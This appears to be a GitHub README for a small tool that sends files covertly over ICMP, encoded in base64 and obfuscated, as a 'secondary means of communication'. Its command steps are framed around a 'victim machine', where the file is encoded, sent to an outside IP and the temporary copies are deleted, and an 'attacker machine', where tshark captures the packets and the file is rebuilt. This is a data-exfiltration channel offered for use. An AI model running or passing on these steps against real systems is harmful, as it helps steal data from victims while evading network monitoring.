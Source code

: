 # ICMP Encrypt Message

Small project to send files encoded and obfuscated over ICMP as a secondary means of communication.

It's required to have root access in the victim machine.

The obfuscation method can be changed. Just edit *obfuscador.py* and *deObfuscador.py* to something that fits your needs.

Steps:
```
[Victim Machine]
    cat <file to send> | base64 > token
    python ofuscador.py token tmp
    rm token
    (sudo) python icmp.py <ip to send the file> tmp # You need to run this as root
    rm tmp

[Attacker Machine]
    (sudo) tshark -i lo -f 'icmp[0] == 8' -e data -Tjson > tout.json # You need to run this as root
    ./getFileBack.sh <final File>
```

